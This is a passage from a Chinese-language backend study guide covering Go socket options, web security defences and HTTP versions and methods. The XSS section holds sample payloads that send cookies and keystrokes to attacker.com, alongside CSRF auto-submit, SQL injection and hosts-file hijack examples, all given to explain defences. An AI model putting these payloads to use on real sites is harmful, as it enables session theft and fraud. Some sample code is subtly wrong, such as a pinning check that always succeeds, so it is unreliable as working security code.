	defer syscall.Close(fd)

	start := time.Now()

	for i := 0; i < messageCount; i++ {
		message := fmt.Sprintf("测试消息 %d", i+1)
		if err := sendMessage(fd, message); err != nil {
			fmt.Printf("第 %d 条消息发送失败: %v\n", i+1, err)
			break
		}
	}

	duration := time.Since(start)
	fmt.Printf("🎯 性能测试完成:\n")
	fmt.Printf("   消息数量: %d\n", messageCount)
	fmt.Printf("   总耗时: %v\n", duration)
	fmt.Printf("   平均延迟: %v/消息\n", duration/time.Duration(messageCount))
}

func main() {
	serverIP := "127.0.0.1"
	serverPort := 8089

	if len(os.Args) > 1 && os.Args[1] == "test" {
		// 性能测试模式
		startPerformanceTestClient(serverIP, serverPort, 100)
	} else {
		// 交互模式
		startInteractiveClient(serverIP, serverPort)
	}
}

```

==>

```bash
# go run ./client.go 
✅ 已连接到服务器 127.0.0.1:8089
📝 输入消息发送到服务器，输入 'quit' 退出
> 1111
服务器响应: 服务器响应 [15:42:50]: 1111
> 2222
服务器响应: 服务器响应 [15:42:52]: 2222
```


#### **6. 选项使用场景总结**

##### **6.1 不同应用的推荐配置**

| 应用类型       | REUSEADDR | REUSEPORT | Nagle | KeepAlive | 缓冲区 |
| :------------- | :-------- | :-------- | :---- | :-------- | :----- |
| **Web服务器**  | ✅         | ✅         | ❌     | ✅         | 大接收 |
| **游戏服务器** | ✅         | ✅         | ❌     | ✅         | 中小   |
| **API网关**    | ✅         | ✅         | ❌     | ✅         | 中等   |
| **文件传输**   | ✅         | ❌         | ✅     | ✅         | 大     |
| **实时音视频** | ✅         | ✅         | ❌     | ✅         | 中小   |

##### **6.2 平台差异注意事项**

```
func applyPlatformSpecificOptions(fd int) error {
    // Linux特有选项
    if runtime.GOOS == "linux" {
        // 快速回收TIME_WAIT连接
        syscall.SetsockoptInt(fd, syscall.SOL_SOCKET, syscall.SO_LINGER, 1)
        
        // 启用TCP快速打开
        syscall.SetsockoptInt(fd, syscall.IPPROTO_TCP, 0x17, 1)
    }
    
    // Windows特有选项
    if runtime.GOOS == "windows" {
        // 设置IO完成端口
    }
    
    return nil
}
```

#### **7. 错误处理和调试**

##### **7.1 检查Socket状态**

```
func checkSocketState(fd int) error {
    // 检查Socket是否有效
    var buf []byte
    _, err := syscall.Read(fd, buf)
    if err != nil && err != syscall.EAGAIN {
        return err
    }
    
    // 获取当前选项值
    linger, err := syscall.GetsockoptLinger(fd, syscall.SOL_SOCKET, syscall.SO_LINGER)
    if err != nil {
        return err
    }
    fmt.Printf("Linger: Onoff=%d, Linger=%d\n", linger.Onoff, linger.Linger)
    
    return nil
}
```

##### **7.2 资源清理**

```
func closeSocket(fd int) error {
    // 优雅关闭：先shutdown再close
    syscall.Shutdown(fd, syscall.SHUT_RDWR)
    return syscall.Close(fd)
}
```

#### **8. 现代Go网络编程实践**

##### **8.1 net包的高级用法**

```
func advancedNetPackage() {
    // 使用net包但设置底层选项
    lc := net.ListenConfig{
        Control: func(network, address string, c syscall.RawConn) error {
            return c.Control(func(fd uintptr) {
                // 设置底层Socket选项
                syscall.SetsockoptInt(int(fd), syscall.SOL_SOCKET, syscall.SO_REUSEADDR, 1)
                syscall.SetsockoptInt(int(fd), syscall.IPPROTO_TCP, syscall.TCP_NODELAY, 1)
            })
        },
    }
    
    listener, err := lc.Listen(context.Background(), "tcp", ":8080")
    if err != nil {
        panic(err)
    }
    
    // 使用优化后的监听器
    fmt.Println("监听在:", listener.Addr())
}
```


### **WEB安全**

> 常见WEB安全问题，CSRF/**XSS**/CROS/跨域/域名劫持等问题和解决方案

#### **1. XSS（跨站脚本攻击）**

> cross-site scripting

##### **1.1 攻击类型**

```
// 1. 反射型XSS - 通过URL参数注入
http://example.com/search?q=<script>alert('XSS')</script>

// 2. 存储型XSS - 恶意脚本存入数据库
// 用户评论：<script>stealCookie()</script>

// 3. DOM型XSS - 前端JS执行恶意代码
document.write('');
```


###### **反射型 XSS（非持久型）**

**攻击流程：**


**示例：**

```js
// 恶意URL示例
http://example.com/search?q=<script>alert('XSS')</script>

// 服务端漏洞代码（Node.js示例）
app.get('/search', (req, res) => {
    const query = req.query.q; // 直接输出用户输入
    res.send(`搜索结果：${query}`); // 危险！未转义
});
```


###### **存储型 XSS（持久型）**

**攻击流程：**


**示例：**

```go
// 论坛评论漏洞
// 攻击者提交：
{
    "comment": "<script>stealCookie()</script>"
}

// 服务端漏洞代码
app.post('/comment', (req, res) => {
    const comment = req.body.comment;
    // 直接存储到数据库，未过滤
    db.saveComment(comment); 
});

// 显示评论时（漏洞）
app.get('/comments', (req, res) => {
    const comments = db.getComments();
    res.send(`
        <div class="comments">
            ${comments}  <!-- 危险！直接输出 -->
        </div>
    `);
});
```

###### **DOM 型 XSS**

**攻击流程：**


**示例：**

```html
<!-- 漏洞代码 -->
<script>
// 从URL获取参数并直接使用
const userInput = new URLSearchParams(window.location.search).get('data');
document.getElementById('content').innerHTML = userInput; // 危险！
</script>

<!-- 恶意URL -->
http://example.com/page?data=
```


##### **1.2 防御方案**

```js
<!-- 1. 输入过滤 -->
<input type="text" value="<%= escape(userInput) %>">

<!-- 2. 输出转义 -->
<div><%= htmlEncode(userContent) %></div>

<!-- 3. CSP（内容安全策略，ontent-Security-Policy） -->
<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; script-src 'self' https://trusted.cdn.com;">

// 4-设置HttpOnly Cookie，防止JS读取
res.cookie('sessionId', 'abc123', {
    httpOnly: true,  // 无法通过document.cookie读取
    secure: true,    // 仅HTTPS传输
    sameSite: 'strict'
});
```

==>前端的防御


##### **1.3 服务端防护（Go示例）**

```go
package main

import (
    "html"
    "net/http"
    "strings"
)

// 1. 输入验证和清理
func sanitizeInput(input string) string {
    // 移除危险标签
    input = strings.ReplaceAll(input, "<script>", "")
    input = strings.ReplaceAll(input, "</script>", "")
    // HTML转义
    return html.EscapeString(input)
}

// 2. 设置安全头部
func setSecurityHeaders(w http.ResponseWriter) {
    w.Header().Set("Content-Security-Policy", "default-src 'self'")
    w.Header().Set("X-XSS-Protection", "1; mode=block")
    w.Header().Set("X-Content-Type-Options", "nosniff")
}

// 3. 安全的模板渲染
func safeTemplateHandler(w http.ResponseWriter, r *http.Request) {
    setSecurityHeaders(w)
    
    userInput := r.URL.Query().Get("q")
    safeInput := sanitizeInput(userInput)
    
    // 使用html/template（自动转义）
    tmpl := `<div>搜索: {{.}}</div>`
    // ... 渲染模板
}
```

##### **1.4 XSS 攻击的危害**

```html
// 1. 窃取Cookie
<script>
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>

// 2. 键盘记录
<script>
document.addEventListener('keydown', function(e) {
    fetch('http://attacker.com/keylog?key=' + e.key);
});
</script>

// 3. 钓鱼攻击
<script>
document.body.innerHTML = '<form action="http://attacker.com">密码：<input type="password"><input type="submit"></form>';
</script>

// 4. 挖矿脚本
<script>
// 在用户浏览器中挖掘加密货币
var miner = new CoinHive.Anonymous('your-key');
miner.start();
</script>
```


#### **2. CSRF（跨站请求伪造）**

**CSRF**（跨站请求伪造，Cross-site request forgery）是一种恶意攻击，攻击者诱骗用户在已认证的Web应用中执行非预期的操作。


##### **2.1 攻击原理**

```js
<!-- 恶意网站中的表单 -->
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

##### **2.2 防御方案**

###### **1. CSRF Token（最常用）**

```
<!-- 服务端生成Token -->
<form action="/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="随机生成的令牌">
    <input type="text" name="amount">
    <input type="submit" value="转账">
</form>
```

**服务端实现：**

```go
// Node.js/Express 示例
const express = require('express');
const csrf = require('csurf');
const cookieParser = require('cookie-parser');

const app = express();
app.use(cookieParser());
app.use(csrf({ cookie: true }));

// 生成Token中间件
app.use((req, res, next) => {
    res.locals.csrfToken = req.csrfToken();
    next();
});

// 在表单中返回Token
app.get('/transfer-form', (req, res) => {
    res.send(`
        <form action="/transfer" method="POST">
            <input type="hidden" name="_csrf" value="${res.locals.csrfToken}">
            <input type="number" name="amount" placeholder="金额">
            <button type="submit">转账</button>
        </form>
    `);
});

// 验证Token
app.post('/transfer', (req, res) => {
    // csrf中间件会自动验证
    if (!req.csrfToken()) {
        return res.status(403).send('CSRF Token验证失败');
    }
    
    // 处理正常业务逻辑
    processTransfer(req.body.amount);
    res.send('转账成功');
});
```

###### **2. SameSite Cookie 属性**

==》禁止跨站请求

```js
// 设置SameSite Cookie
res.cookie('sessionId', 'abc123', {
    httpOnly: true,
    secure: true,
    sameSite: 'strict' // 或 'lax'
});

// SameSite 选项：
// - strict: 完全禁止跨站发送
// - lax: 允许安全跨站请求（如导航）
// - none: 允许所有跨站请求（需配合secure）
```

###### **3. 双重Cookie验证**

```
// 前端：在请求头中添加自定义头
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'X-Requested-With': 'XMLHttpRequest',
        'X-CSRF-TOKEN': getCSRFToken() // 从Cookie或Meta标签获取
    },
    body: JSON.stringify({ amount: 100 })
});

// 服务端验证
app.post('/api/transfer', (req, res) => {
    const token = req.headers['x-csrf-token'];
    if (!token || token !== req.cookies.csrfToken) {
        return res.status(403).json({ error: 'CSRF验证失败' });
    }
    // 继续处理...
});
```

###### **4. Referer 检查**

```
// 检查请求来源
function checkReferer(req) {
    const referer = req.get('Referer');
    const origin = req.get('Origin');
    
    // 允许的域名白名单
    const allowedDomains = [
        'https://your-domain.com',
        'https://www.your-domain.com'
    ];
    
    if (referer && !allowedDomains.some(domain => referer.startsWith(domain))) {
        throw new Error('非法的请求来源');
    }
}
```


##### **2.3 前端集成**

```
<!-- 表单中包含CSRF Token -->
<form action="/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="从Cookie读取">
    <input type="text" name="amount">
    <button type="submit">转账</button>
</form>

<script>
// 自动添加CSRF Token到AJAX请求
const csrfToken = getCookie('csrf_token');
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'X-CSRF-Token': csrfToken,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({ amount: 1000 })
});
</script>
```


#### **3. CORS（跨域资源共享）**

##### **3.1 安全配置**

```
package main

import "net/http"

// CORS中间件
func CORSMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        // 允许的源（白名单）
        allowedOrigins := map[string]bool{
            "https://trusted.com": true,
            "https://app.com":     true,
        }
        
        origin := r.Header.Get("Origin")
        if allowedOrigins[origin] {
            w.Header().Set("Access-Control-Allow-Origin", origin)
        } else {
            w.Header().Set("Access-Control-Allow-Origin", "null")
        }
        
        w.Header().Set("Access-Control-Allow-Methods", "GET, POST, OPTIONS")
        w.Header().Set("Access-Control-Allow-Headers", "Content-Type, Authorization")
        w.Header().Set("Access-Control-Allow-Credentials", "true")
        w.Header().Set("Access-Control-Max-Age", "86400") // 24小时
        
        // 预检请求处理
        if r.Method == "OPTIONS" {
            w.WriteHeader(http.StatusOK)
            return
        }
        
        next.ServeHTTP(w, r)
    })
}
```

##### **3.2 严格CORS策略**

```
func strictCORSMiddleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        origin := r.Header.Get("Origin")
        
        // 1. 验证Origin
        if !isAllowedOrigin(origin) {
            http.Error(w, "CORS not allowed", http.StatusForbidden)
            return
        }
        
        // 2. 设置严格头部
        w.Header().Set("Access-Control-Allow-Origin", origin)
        w.Header().Set("Access-Control-Allow-Methods", "GET, POST")
        w.Header().Set("Access-Control-Allow-Headers", "Content-Type, X-Requested-With")
        w.Header().Set("Access-Control-Expose-Headers", "X-Custom-Header")
        w.Header().Set("Access-Control-Allow-Credentials", "true")
        
        // 3. 安全头部
        w.Header().Set("Vary", "Origin") // 防止缓存污染
        
        if r.Method == "OPTIONS" {
            w.WriteHeader(http.StatusNoContent)
            return
        }
        
        next.ServeHTTP(w, r)
    })
}

func isAllowedOrigin(origin string) bool {
    allowed := []string{
        "https://www.mysite.com",
        "https://api.mysite.com",
    }
    for _, o := range allowed {
        if origin == o {
            return true
        }
    }
    return false
}
```


#### **4. 域名劫持防护**

##### **4.1 DNS劫持**

> DNS劫持是**攻击者篡改DNS解析结果**，将域名指向错误的IP地址。



###### **常见DNS劫持手法**

1. **本地Hosts文件篡改**

   ```
   # 恶意修改C:\Windows\System32\drivers\etc\hosts
   2.2.2.2 www.taobao.com
   2.2.2.2 www.alipay.com
   ```

2. **路由器DNS篡改**

   ```
   # 攻击者登录路由器管理界面
   # 修改DNS服务器为恶意DNS
   主DNS: 恶意DNS IP
   备DNS: 8.8.8.8
   ```

3. **中间人攻击（MITM）**

   ```
   // 恶意WiFi劫持DNS查询
   // 在公共WiFi中监听并篡改DNS响应
   ```

###### **检测和防御DNS劫持**

```
# 检测命令
nslookup 正常域名
dig 域名 @8.8.8.8  # 使用可信DNS查询

# 防御措施
## 使用HTTPS
## DNS over HTTPS (DoH)
## VPN加密隧道
```

```go
package main

import (
    "crypto/tls"
    "net/http"
)

// 1. HSTS强制HTTPS
func enableHSTS(w http.ResponseWriter) {
    w.Header().Set("Strict-Transport-Security", 
        "max-age=31536000; includeSubDomains; preload")
}

// 2. 证书锁定（Certificate Pinning）
func createSecureHTTPClient() *http.Client {
    tr := &http.Transport{
        TLSClientConfig: &tls.Config{
            // 验证证书指纹
            VerifyPeerCertificate: verifyCertificateFingerprint,
            // 强制服务器名称指示
            ServerName: "api.mysite.com",
        },
    }
    return &http.Client{Transport: tr}
}

func verifyCertificateFingerprint(rawCerts [][]byte, verifiedChains [][]*x509.Certificate) error {
    expectedFingerprint := "SHA256:abc123..." // 预置证书指纹
    // ... 验证逻辑
    return nil
}
```

##### **4.2 防止点击劫持**

```
// 设置X-Frame-Options
func preventClickjacking(w http.ResponseWriter) {
    // 禁止嵌入iframe
    w.Header().Set("X-Frame-Options", "DENY")
    // 或只允许同源
    // w.Header().Set("X-Frame-Options", "SAMEORIGIN")
}

// 现代替代方案：Content-Security-Policy
func setFrameAncestors(w http.ResponseWriter) {
    w.Header().Set("Content-Security-Policy", "frame-ancestors 'self'")
}
```


##### 4.3 **域名劫持**

> 域名劫持是**攻击者获取域名管理权限**，完全控制域名的解析权。


**域名劫持防御**

```
# 管理和流程防护
## 1. 强账户安全
- 启用双因素认证(2FA)
- 使用独特强密码
- 定期更换密码

## 2. 域名锁定
- 开启注册商锁定(Registrar Lock)
- 禁用域名转移

## 3. 监控告警
- 域名解析变更监控
- WHOIS信息变更告警
- SSL证书监控

## 4. 法律保护
- 商标注册保护
- 域名隐私保护
```

#### **5. 其他常见攻击防护**

##### **5.1 SQL注入防护**

```
package main

import (
    "database/sql"
    "fmt"
    _ "github.com/lib/pq"
)

// 错误：字符串拼接（易受注入）
func vulnerableQuery(db *sql.DB, userInput string) {
    query := fmt.Sprintf("SELECT * FROM users WHERE name = '%s'", userInput)
    // 如果userInput = "admin' OR '1'='1" → 注入成功
    db.Query(query)
}

// 正确：参数化查询
func safeQuery(db *sql.DB, userInput string) {
    query := "SELECT * FROM users WHERE name = $1"
    rows, err := db.Query(query, userInput) // 自动转义
    // ...
}

// 使用ORM（更安全）
type User struct {
    ID   int
    Name string
}

func ormQuery(db *sql.DB, userInput string) {
    var users []User
    db.Where("name = ?", userInput).Find(&users) // Gorm示例
}
```

##### **5.2 文件上传安全**

```
package main

import (
    "io"
    "mime/multipart"
    "net/http"
    "path/filepath"
    "strings"
)

func safeFileUpload(w http.ResponseWriter, r *http.Request) {
    file, header, err := r.FormFile("file")
    if err != nil {
        http.Error(w, "Invalid file", http.StatusBadRequest)
        return
    }
    defer file.Close()
    
    // 1. 验证文件类型
    allowedTypes := map[string]bool{
        "image/jpeg": true,
        "image/png":  true,
        "application/pdf": true,
    }
    if !allowedTypes[header.Header.Get("Content-Type")] {
        http.Error(w, "Unsupported file type", http.StatusBadRequest)
        return
    }
    
    // 2. 验证文件扩展名
    ext := strings.ToLower(filepath.Ext(header.Filename))
    allowedExts := []string{".jpg", ".jpeg", ".png", ".pdf"}
    if !contains(allowedExts, ext) {
        http.Error(w, "Unsupported file extension", http.StatusBadRequest)
        return
    }
    
    // 3. 重命名文件（防止路径遍历）
    safeName := generateSafeFilename(ext)
    
    // 4. 限制文件大小
    r.ParseMultipartForm(10 << 20) // 10MB限制
    
    // 保存文件...
}
```


#### **总结**

**安全防护矩阵**

| 攻击类型                 | 防护措施                   | 关键配置                      |
| :----------------------- | :------------------------- | :---------------------------- |
| **XSS**（跨站脚本攻击）  | 输入过滤、输出转义、CSP    | `Content-Security-Policy`     |
| **CSRF**（跨站请求伪造） | Token验证、SameSite Cookie | `SameSite=Strict`             |
| **CORS**（跨域资源共享） | 白名单、严格Origin检查     | `Access-Control-Allow-Origin` |
| **点击劫持**             | X-Frame-Options            | `X-Frame-Options: DENY`       |
| **SQL注入**              | 参数化查询、ORM            | 预处理语句                    |
| **域名劫持**             | HSTS、证书锁定             | `Strict-Transport-Security`   |

**最佳实践清单**

1. ✅ **始终验证和清理用户输入**
2. ✅ **使用参数化查询防止SQL注入**
3. ✅ **设置安全HTTP头部**
4. ✅ **实施适当的CORS策略**
5. ✅ **启用HTTPS和HSTS**
6. ✅ **记录安全事件并监控**
7. ✅ **定期进行安全审计和渗透测试**

**Go安全库推荐**

```
# 安全相关库
go get golang.org/x/crypto/bcrypt    # 密码哈希
go get github.com/gorilla/csrf        # CSRF保护
go get github.com/unrolled/secure     # 安全中间件
go get github.com/owasp-amass/amass   # 安全扫描
```


### **HTTP**

> HTTP1.x/2/3区别，GET/POST区别，常见状态码和请求头，KeepAlive机制，Cookie/Session区别...

#### 1. HTTP 版本演进对比


| 特性           | HTTP/1.0                 | HTTP/1.1               | HTTP/2                | HTTP/3               |
| :------------- | :----------------------- | :--------------------- | :-------------------- | :------------------- |
| **连接方式**   | 短连接（每次请求新连接） | 持久连接（Keep-Alive） | 多路复用单连接        | QUIC over UDP        |
| **队头阻塞**   | 严重                     | 存在（TCP层）          | 解决（应用层）        | 完全消除             |
| **头部传输**   | 纯文本                   | 纯文本                 | HPACK压缩（85%+节省） | QPACK压缩            |
| **服务器推送** | 不支持                   | 不支持                 | 支持                  | 支持                 |
| **握手延迟**   | 2-3 RTT                  | 1-2 RTT                | 1-2 RTT               | 0-1 RTT              |
| **连接迁移**   | 不支持                   | 不支持                 | 不支持                | 支持（网络切换无感） |
| **加密要求**   | 可选                     | 可选                   | 事实要求              | 内置加密             |

**关键改进说明：**

- **HTTP/1.1**：引入持久连接、管道化、分块传输、缓存控制
- **HTTP/2**：二进制分帧、多路复用、头部压缩、流量控制
- **HTTP/3**：基于QUIC协议，解决TCP队头阻塞，优化移动网络


##### 1.1 HTTP/1.x 特性

```go
package main

import (
    "fmt"
    "net/http"
    "time"
)

// HTTP/1.0 示例
func http10Example() {
    fmt.Println("=== HTTP/1.0 特性 ===")
    fmt.Println("• 短连接：每个请求建立新TCP连接")
    fmt.Println("• 无状态：每个请求独立")
    fmt.Println("• 基础方法：GET, POST, HEAD")
}

// HTTP/1.1 核心改进
func http11Improvements() {
    fmt.Println("\n=== HTTP/1.1 改进 ===")
    fmt.Println("• 持久连接：Connection: keep-alive")
    fmt.Println("• 管道化：请求并行发送（但按序返回）")
    fmt.Println("• 分块传输：Transfer-Encoding: chunked")
    fmt.Println("• 缓存控制：Cache-Control 头部")
    fmt.Println("• 主机头：支持虚拟主机")
}

// HTTP/1.1 持久连接示例
func keepAliveDemo() {
    client := &http.Client{
        Timeout: 30 * time.Second,
        Transport: &http.Transport{
            MaxIdleConns:        100,
            IdleConnTimeout:     90 * time.Second,
            TLSHandshakeTimeout: 10 * time.Second,
        },
    }
    
    // 同一个连接发送多个请求
    for i := 0; i < 3; i++ {
        resp, err := client.Get("http://httpbin.org/get")
        if err == nil {
            fmt.Printf("请求 %d: 状态 %d\n", i+1, resp.StatusCode)
            resp.Body.Close()
        }
    }
}
```


##### 1.2 HTTP/2 革命性改进

> 二进制分帧层、多路复用、头部压缩

```go
type HTTP2Features struct {
    // 二进制分帧层
    BinaryFraming bool `json:"binary_framing"`
    
    // 多路复用
    Multiplexing struct {
        Enabled     bool `json:"enabled"`
        Streams     int  `json:"max_concurrent_streams"`
        Priority    bool `json:"priority"`
    } `json:"multiplexing"`
    
    // 头部压缩
    HeaderCompression struct {
        HPACK          bool `json:"hpack"`
        CompressionRate int  `json:"compression_rate"` // 通常 80-90%
    } `json:"header_compression"`
    
    // 服务器推送
    ServerPush bool `json:"server_push"`
    
    // 流量控制
    FlowControl bool `json:"flow_control"`
}

func http2Demo() {
    fmt.Println("\n=== HTTP/2 核心特性 ===")
    features := HTTP2Features{
        BinaryFraming: true,
        Multiplexing: struct {
            Enabled     bool `json:"enabled"`
            Streams     int  `json:"max_concurrent_streams"`
            Priority    bool `json:"priority"`
        }{Enabled: true, Streams: 100, Priority: true},
        HeaderCompression: struct {
            HPACK          bool `json:"hpack"`
            CompressionRate int  `json:"compression_rate"`
        }{HPACK: true, CompressionRate: 85},
        ServerPush:  true,
        FlowControl: true,
    }
    
    fmt.Printf("二进制分帧: %v\n", features.BinaryFraming)
    fmt.Printf("多路复用: %v (最大 %d 流)\n", features.Multiplexing.Enabled, features.Multiplexing.Streams)
    fmt.Printf("头部压缩: %v (节省 %d%%)\n", features.HeaderCompression.HPACK, features.HeaderCompression.CompressionRate)
    fmt.Printf("服务器推送: %v\n", features.ServerPush)
}
```

##### 1.3 HTTP/3 (QUIC) 最新特性

```go
type HTTP3Features struct {
    TransportLayer string `json:"transport_layer"`
    Encryption     string `json:"encryption"`
    ZeroRTT        bool   `json:"zero_rtt"`
    ConnectionMigration bool `json:"connection_migration"`
}

func compareHTTPVersions() {
    fmt.Println("\n=== HTTP 版本对比 ===")
    
    versions := map[string]map[string]interface{}{
        "HTTP/1.1": {
            "传输层":    "TCP",
            "队头阻塞":   "存在",
            "握手延迟":   "2-3 RTT",
            "多路复用":   "有限",
            "加密":     "可选(TLS)",
        },
        "HTTP/2": {
            "传输层":    "TCP",
            "队头阻塞":   "TCP层存在",
            "握手延迟":   "1-2 RTT",
            "多路复用":   "完全支持", 
            "加密":     "几乎强制",
        },
        "HTTP/3": {
            "传输层":    "QUIC over UDP",
            "队头阻塞":   "消除",
            "握手延迟":   "0-1 RTT", 
            "多路复用":   "完全支持",
            "加密":     "内置",
        },
    }
    
    for version, features := range versions {
        fmt.Printf("\n%s:\n", version)
        for feature, value := range features {
            fmt.Printf("  %s: %v\n", feature, value)
        }
    }
}
```

#### 2. HTTP 方法详解

##### 2.1 GET vs POST 核心区别

```
# GET - 获取数据（安全且幂等）
GET /api/users/123  # 获取用户123的信息（不改变服务器状态）

# POST - 创建/提交数据（非安全非幂等）
POST /api/users     # 创建新用户（改变服务器状态）
```

| 特性           | GET                             | POST                         |
| :------------- | :------------------------------ | :--------------------------- |
| **安全性**     | 安全（只读操作）                | 不安全（可能修改数据）       |
| **幂等性**     | 幂等（多次执行结果相同）        | 非幂等（可能产生不同结果）   |
| **可缓存**     | 可缓存                          | 不可缓存                     |
| **数据位置**   | URL查询字符串                   | 请求体                       |
| **数据长度**   | 受限（URL长度限制，约2048字符） | 无限制（服务器配置限制）     |
| **浏览器历史** | 保留参数                        | 不保留参数                   |
| **主要用途**   | 获取数据、搜索、过滤            | 提交数据、创建资源、文件上传 |
| **可见性**     | 参数在URL中可见                 | 参数在请求体中不可见         |
| **书签**       | 可收藏为书签                    | 不可收藏                     |

**适用场景：**

- **GET**：页面加载、搜索查询、数据筛选、分页操作
- **POST**：用户登录、表单提交、文件上传、支付操作


```go
type HTTPMethodComparison struct {
    GET struct {
        Safe         bool   `json:"safe"`
        Idempotent   bool   `json:"idempotent"`
        Cacheable    bool   `json:"cacheable"`
        DataInURL    bool   `json:"data_in_url"`
        LengthLimit  int    `json:"length_limit"` // 约 2048 字符
        UseCases     []string `json:"use_cases"`
    } `json:"get"`
    
    POST struct {
        Safe         bool   `json:"safe"`
        Idempotent   bool   `json:"idempotent"` 
        Cacheable    bool   `json:"cacheable"`
        DataInBody   bool   `json:"data_in_body"`
        LengthLimit  string `json:"length_limit"` // 服务器限制
        UseCases     []string `json:"use_cases"`
    } `json:"post"`
}

func httpMethodsDemo() {
    fmt.Println("\n=== GET vs POST 详细对比 ===")
    
    comparison := HTTPMethodComparison{}
    comparison.GET.Safe = true
    comparison.GET.Idempotent = true
    comparison.GET.Cacheable = true
    comparison.GET.DataInURL = true
    comparison.GET.LengthLimit = 2048
    comparison.GET.UseCases = []string{
        "搜索查询",
        "页面导航", 
        "数据获取",
    }
    
    comparison.POST.Safe = false
    comparison.POST.Idempotent = false
    comparison.POST.Cacheable = false
    comparison.POST.DataInBody = true
    comparison.POST.LengthLimit = "服务器配置"
    comparison.POST.UseCases = []string{
        "表单提交",
        "文件上传",
        "创建资源",
        "敏感数据",
    }
    
    fmt.Printf("GET 方法:\n")
    fmt.Printf("  安全: %v, 幂等: %v, 可缓存: %v\n", 
        comparison.GET.Safe, comparison.GET.Idempotent, comparison.GET.Cacheable)
    fmt.Printf("  数据位置: URL, 长度限制: %d字符\n", comparison.GET.LengthLimit)
    fmt.Printf("  使用场景: %v\n", comparison.GET.UseCases)
    
    fmt.Printf("\nPOST 方法:\n")
    fmt.Printf("  安全: %v, 幂等: %v, 可缓存: %v\n", 
        comparison.POST.Safe, comparison.POST.Idempotent, comparison.POST.Cacheable)
    fmt.Printf("  数据位置: 请求体, 长度限制: %s\n", comparison.POST.LengthLimit)
    fmt.Printf("  使用场景: %v\n", comparison.POST.UseCases)
}
```

###### **为什么后台接口常用POST**

**选择POST的主要原因：**

1. **✅ 安全性**：敏感数据不在URL中暴露
2. **✅ 数据量**：无URL长度限制，支持复杂数据结构
3. **✅ 灵活性**：支持嵌套对象、数组等复杂参数
4. **✅ 语义正确**：符合HTTP标准，查询操作也可用POST

**选择GET的情况：**

1. **✅ 简单查询**：参数少且不敏感
2. **✅ 资源获取**：纯粹的只读操作
3. **✅ 缓存需求**：希望利用浏览器缓存
4. **✅ 幂等操作**：多次执行结果相同

**2.1 安全性考虑（最重要原因）**

```
// ❌ 危险：敏感数据在URL中暴露
GET /api/login?username=admin&password=123456
// 日志、浏览器历史、Referer头都会泄露密码！

// ✅ 安全：敏感数据在请求体中
POST /api/login
Content-Type: application/json
{
  "username": "admin",
  "password": "123456"
}
```

**2.2 数据量限制**

```
// ❌ GET限制：URL长度有限（通常2KB-8KB）
// 复杂查询条件可能超限
GET /api/search?filters={"category":"electronics","priceRange":{"min":100,"max":1000},"features":["wireless","bluetooth"],...}

// ✅ POST无限制：请求体可传输大量数据
POST /api/search
{
  "filters": {
    "category": "electronics",
    "priceRange": {"min": 100, "max": 1000},
    "features": ["wireless", "bluetooth", "noise-canceling"],
    // ... 复杂查询条件
  },
  "pagination": {"page": 1, "size": 50},
  "sort": {"field": "price", "order": "asc"}
}
```

**2.3 数据结构复杂性**

```go
// ❌ GET只能简单键值对，难以处理复杂结构
GET /api/users?filter[category]=tech&filter[status]=active&page=1&size=20

// ✅ POST支持复杂嵌套结构
POST /api/users/query
{
  "filter": {
    "and": [
      {"category": {"eq": "tech"}},
      {"status": {"in": ["active", "pending"]}},
      {"createTime": {"gte": "2024-01-01"}}
    ]
  },
  "pagination": {"page": 1, "size": 20},
  "sort": [{"field": "createTime", "order": "desc"}],
  "includes": ["profile", "permissions"]
}
```


##### 2.2 其他HTTP方法

```go
type OtherHTTPMethods struct {
    PUT struct {
        Description string   `json:"description"`
        Idempotent  bool     `json:"idempotent"`
        UseCase     string   `json:"use_case"`
    } `json:"put"`
    
    DELETE struct {
        Description string   `json:"description"`
        Idempotent  bool     `json:"idempotent"` 
        UseCase     string   `json:"use_case"`
    } `json:"delete"`
    
    PATCH struct {
        Description string   `json:"description"`
        Idempotent  bool     `json:"idempotent"`
        UseCase     string   `json:"use_case"`
    } `json:"patch"`
    
    HEAD struct {
        Description string   `json:"description"`
        UseCase     string   `json:"use_case"`
    } `json:"head"`
    
    OPTIONS struct {
        Description string   `json:"description"`
        UseCase     string   `json:"use_case"`
    } `json:"options"`
}

func otherMethodsDemo() {
    fmt.Println("\n=== 其他HTTP方法 ===")
    
    methods := OtherHTTPMethods{}
    
    methods.PUT.Description = "完整更新资源"
    methods.PUT.Idempotent = true
    methods.PUT.UseCase = "更新用户信息"
    
    methods.DELETE.Description = "删除资源"
    methods.DELETE.Idempotent = true  
    methods.DELETE.UseCase = "删除文章"
    
    methods.PATCH.Description = "部分更新资源"
    methods.PATCH.Idempotent = false
    methods.PATCH.UseCase = "更新用户部分字段"
    
    methods.HEAD.Description = "获取响应头（无body）"
    methods.HEAD.UseCase = "检查资源是否存在"
    
    methods.OPTIONS.Description = "获取服务器支持的方法"
    methods.OPTIONS.UseCase = "CORS预检请求"
    
    fmt.Printf("PUT: %s (幂等: %v) - %s\n", 
        methods.PUT.Description, methods.PUT.Idempotent, methods.PUT.UseCase)
    fmt.Printf("DELETE: %s (幂等: %v) - %s\n", 
